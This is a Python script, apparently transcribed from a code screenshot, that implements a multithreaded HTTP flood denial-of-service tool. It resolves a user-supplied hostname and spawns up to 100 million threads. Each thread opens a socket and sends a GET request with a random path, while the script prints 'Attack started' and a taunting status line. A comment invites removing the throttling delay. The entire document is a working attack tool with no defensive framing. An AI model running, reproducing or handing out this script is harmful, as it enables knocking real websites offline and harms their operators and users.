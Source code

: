import random
import socket
import string
import sys
import threading
import time

# Parse inputs
host = ""
ip = ""
port = 0
num_requests = 0

if len(sys.argv) == 2:
    port = 80
    num_requests = 100000000
elif len(sys.argv) == 3:
    port = int(sys.argv[2])
    num_requests = 100000000
elif len(sys.argv) == 4:
    port = int(sys.argv[2])
    num_requests = int(sys.argv[3])
else:
    print(f"ERROR\nUsage: {sys.argv[0]} < Hostname > < Port > < Number_of_Attacks >")
    sys.exit(1)

try:
    host = str(sys.argv[1]).replace("https://", "").replace("http://", "").replace("www.", "")
    ip = socket.gethostbyname(host)
except socket.gaierror:
    print("ERROR\nMake sure you entered a correct website")
    sys.exit(2)

thread_num = 0
thread_num_mutex = threading.Lock()

def print_status():
    global thread_num
    thread_num_mutex.acquire(True)

    thread_num += 1
    sys.stdout.write(f"\r {time.ctime().split()[3]} [{str(thread_num)}] #-#-# Hold Your Tears #-#-#")
    sys.stdout.flush()
    thread_num_mutex.release()

def generate_url_path():
    msg = str(string.ascii_letters + string.digits + string.punctuation)
    data = "".join(random.sample(msg, 5))
    return data

def attack():
    print_status()
    url_path = generate_url_path()

    dos = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        dos.connect((ip, port))
        byt = (f"GET /{url_path} HTTP/1.1\nHost: {host}\n\n").encode()
        dos.send(byt)
    except socket.error:
        print(f"\n [ No connection, server may be down ]: {str(socket.error)}")
    finally:
        dos.shutdown(socket.SHUT_RDWR)
        dos.close()

print(f"[#] Attack started on {host} ({ip}) || Port: {str(port)} || # Requests: {str(num_requests)}")

all_threads = []
for i in range(num_requests):
    t1 = threading.Thread(target=attack)
    t1.start()
    all_threads.append(t1)

    # You can comment out or reduce the sleep time
    # time.sleep(0.01)

for current_thread in all_threads:
    current_thread.join()
